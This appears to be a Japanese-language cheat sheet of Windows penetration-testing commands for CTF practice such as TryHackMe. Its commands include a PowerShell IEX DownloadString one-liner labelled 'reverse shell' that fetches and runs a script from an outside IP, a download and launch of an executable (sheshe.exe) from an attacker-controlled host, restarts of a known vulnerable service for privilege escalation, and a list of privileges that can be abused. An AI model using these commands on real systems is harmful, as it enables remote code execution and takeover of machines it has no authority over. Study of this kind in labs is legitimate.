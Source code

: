 # Windows

### reverse shell
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.180/hogehoge.ps1')"
```

### fileの発見
`dir flag* /s /p`

### スクリプト実行
`.\filename`

### fileをDL
https://binary-pulsar.hatenablog.jp/entry/2018/11/28/090000

```
bitsadmin /transfer download https://www.google.co.jp/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png %CD%\logo.png
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"
```

### powershellでプロセス実行
`powershell "Start-Process "sheshe.exe""`

### serviceのリスタート
```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

### 現在のユーザーの権限一覧
`whoami /priv`
特権に関しては[こちら](https://www.exploit-db.com/papers/42556)参照
特権使ったTryHackMeは[これ](https://qiita.com/sanpo_shiho/items/3f2c4595f20cd4133ab8)

#### 怪しい特権
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
